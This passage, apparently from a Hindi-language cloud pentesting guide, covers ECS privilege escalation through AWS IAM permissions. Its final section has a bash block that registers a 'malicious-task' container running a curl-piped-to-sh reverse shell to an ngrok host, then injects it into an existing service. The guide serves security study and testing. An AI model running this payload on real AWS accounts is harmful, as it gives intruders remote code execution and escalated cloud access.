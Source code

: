* अगर उसके पास **`ecs:UpdateService`** है, तो `aws ecs update-service --enable-execute-command [...]` के साथ एक सेवा अपडेट करें।

आप **पिछले ECS प्राइवेस्क खंडों** में **इन विकल्पों के उदाहरण** देख सकते हैं।

**संभावित प्रभाव:** कंटेनर्स से जुड़े एक विभिन्न भूमिका में प्राइवेस्क।

### `ssm:StartSession`

जांचें **ssm प्राइवेस्क पेज** में कैसे आप इस अनुमति का दुरुपयोग करके **ECS में प्राइवेस्क** कर सकते हैं:

{% content-ref url="aws-ssm-privesc.md" %}
[aws-ssm-privesc.md](aws-ssm-privesc.md)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

जांचें **ec2 प्राइवेस्क पेज** में कैसे आप इन अनुमतियों का दुरुपयोग करके **ECS में प्राइवेस्क** कर सकते हैं:

{% content-ref url="aws-ec2-privesc.md" %}
[aws-ec2-privesc.md](aws-ec2-privesc.md)
{% endcontent-ref %}

### `?ecs:RegisterContainerInstance`

TODO: क्या एक विभिन्न AWS खाते से एक इंस्टेंस को रजिस्टर करना संभव है ताकि टास्क अटैकर द्वारा नियंत्रित मशीनों पर चलाए जा सकें??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

{% hint style="info" %}
TODO: इसे टेस्ट करें
{% endhint %}

जिनके पास `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, और `ecs:DescribeTaskSets` अनुमतियाँ हैं, वे **एक मौजूदा ECS सेवा के लिए एक दुर्भाग्यपूर्ण टास्क सेट बना सकते हैं और प्राथमिक टास्क सेट को अपडेट कर सकते हैं**। इससे अटैकर को **सेवा के अंदर विविध कोड को निष्पादित करने की अनुमति** मिलती है।
```bash
bashCopy code# Register a task definition with a reverse shell
echo '{
"family": "malicious-task",
"containerDefinitions": [
{
"name": "malicious-container",
"image": "alpine",
"command": [
"sh",
"-c",
"apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
]
}
]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
```